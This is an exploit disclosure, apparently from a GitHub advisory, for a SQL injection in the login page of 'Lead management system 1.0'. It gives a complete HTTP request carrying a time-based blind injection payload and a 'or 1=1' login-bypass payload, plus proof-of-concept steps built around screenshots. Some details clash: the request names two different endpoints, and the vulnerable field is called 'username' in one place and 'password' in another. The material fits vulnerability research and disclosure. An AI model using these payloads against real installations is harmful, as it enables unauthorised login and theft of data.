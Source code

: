 
# Lead management system - login.php 'username' SQL inject

#### Exploit Title: Lead management system - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

#### Software Link:https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

#### Version: Lead management system 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Lead management system does not filter the content correctly at the "login.php /username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.67.10:8091
Content-Length: 97
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g1diqn5ba9l5npktcpl5jc287t
Connection: close

username=1' AND (SELECT 6691 FROM (SELECT(SLEEP(5)))slLY) AND 'lrcD'='lrcD&password=123456&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

![image](https://github.com/joinia/webray.com.cn/tree/main/lead_management_system/images/login.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/tree/main/lead_management_system/images/code.png)

3、Use payload "sleep (5)" for blind SQL injection.It is found that the time blind injection is successful

![image](https://github.com/joinia/webray.com.cn/tree/main/lead_management_system/images/timesql.png)

4、We can also construct a payload for universal password login

payload:`username=1'or 1=1 #&password=123456&login=`

![image](https://github.com/joinia/webray.com.cn/tree/main/lead_management_system/images/loginwithanyuser.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![image](https://github.com/joinia/webray.com.cn/tree/main/lead_management_system/images/sqlmap.png)


